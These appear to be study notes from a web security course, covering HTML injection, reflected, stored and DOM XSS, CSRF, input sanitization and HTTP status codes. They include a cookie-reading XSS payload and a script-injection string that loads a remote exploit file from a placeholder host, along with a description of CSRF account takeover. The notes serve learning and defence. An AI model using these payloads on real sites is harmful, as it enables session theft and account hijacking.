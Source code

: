 ### HTML Injection

----
HTML injection occurs when unfiltered user input is displayed on the page. This can either be through retrieving previously submitted code, like retrieving a user comment from the back end database, or by directly displaying unfiltered user input through JavaScript on the front end.
*Injection Example*
```html
<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>
```

### XSS Basics

----
| Type | Description |
| --- | --- |
|Reflected XSS | Occurs when user input is displayed on the page after processing (e.g., search result or error message).|
|Stored XSS | Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).|
|DOM XSS | Occurs when user input is directly shown in the browser and is written to an HTML DOM object (e.g., vulnerable username or page title).|

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```


### Cross-Site Request Forgery (CSRF)

----

A common CSRF attack to gain higher privileged access to a web application is to craft a JavaScript payload that automatically changes the victim's password to the value set by the attacker. 
Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the JavaScript CSRF payload), the JavaScript code would execute automatically. 
It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

*Example loading remote exploit.js file*
```javascript
"><script src=//www.example.com/exploit.js></script>
```
Prevention:
Web-App Firewall and/or

| Type | Description |
| --- | --- |
| Sanitization |	Removing special characters and non-standard characters from user input before displaying it or storing it.|
|Validation |	Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)|

[OWASP CSRF Guide](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

### Web Request Codes

| Code |	Description |
|---|---|
|*Successful* | *responses*|  	
|200 OK |	The request has succeeded|
201 Created | Request led to creation of resource (POST)
|*Redirection*| *messages* |
|301 Moved Permanently |	The URL of the requested resource has been changed permanently
|302 Found| 	The URL of the requested resource has been changed temporarily|
|*Client error*| *responses* 	|
|400 Bad Request| 	The server could not understand the request due to invalid syntax|
|401 Unauthorized| 	Unauthenticated attempt to access page|
403 Forbidden |	The client does not have access rights to the content
404 Not Found |	The server can not find the requested resource
405 Method Not Allowed |	The request method is known by the server but has been disabled and cannot be used
408 Request Timeout |	This response is sent on an idle connection by some servers, even without any previous request by the client
|*Server error* | *responses* | 	
500 Internal Server Error |	The server has encountered a situation it doesn't know how to handle
502 Bad Gateway |	The server, while working as a gateway to get a response needed to handle the request, received an invalid response
504 Gateway Timeout |	The server is acting as a gateway and cannot get a response in time
